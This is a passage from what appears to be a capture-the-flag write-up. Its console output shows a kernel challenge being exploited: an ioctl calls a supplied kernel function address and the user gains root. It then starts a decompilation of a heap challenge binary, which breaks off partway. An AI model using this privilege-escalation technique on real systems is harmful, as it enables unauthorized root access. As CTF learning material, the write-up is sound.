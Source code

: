 ```
It is: ffff88000212d840

...

> 1                   
I need a kernel address to call. Be careful, though or we will crash horribly...
> 
18446744071579167184
There is a good chance we will want to pass an argument. Which one is it?
> 
18446612132349007936
Got call address: 0xffffffff8104e9d0, argument: 0xffff88000212d840
flux_baby ioctl nr 900 called
flux_baby ioctl nr 900 called
flux_baby ioctl extracted param ffffffff8104e9d0 as function ptr, calling it
A miracle happened. We came back without crashing! I even got a return value for you...
It is: 0000000000000000

...

> 2
uid=0(root) gid=0(root)
```

At the end just use read file to read flag.

## Heap Heaven 2

Overview:
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  void **_state_ptr; // rbx
  __int64 __state_ptr2; // rbx
  const char *_buf_ptr; // rdi
  __int64 _MMAP_SIZE; // rsi
  int _size; // ST0C_4
  unsigned __int64 buf; // [rsp+10h] [rbp-40h]
  unsigned __int64 _opt; // [rsp+18h] [rbp-38h]
  const char *offset; // [rsp+20h] [rbp-30h]
  const char *_offset; // [rsp+28h] [rbp-28h]
  const char *_offset_leak; // [rsp+30h] [rbp-20h]
  unsigned __int64 v14; // [rsp+38h] [rbp-18h]

  v14 = __readfsqword(0x28u);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  buf = 0LL;
  state_bss = (__int64)malloc(0x10uLL);
  _state_ptr = (void **)state_bss;
  *_state_ptr = malloc(0x10uLL);
  **(_QWORD **)state_bss = bye_function;
  *(_QWORD *)(*(_QWORD *)state_bss + 8LL) = menu_function;
  __state_ptr2 = state_bss;
  *(_DWORD *)(__state_ptr2 + 8) = open("/dev/urandom", 0);
  while ( buf <= 0x20000 )
  {
    if ( read(*(_DWORD *)(state_bss + 8), &buf, 8uLL) != 8 )
      return -1;
    buf &= 0xFFFFFFF000uLL;
  }
  close(*(_DWORD *)(state_bss + 8));
  *(_DWORD *)(state_bss + 8) = 0;
```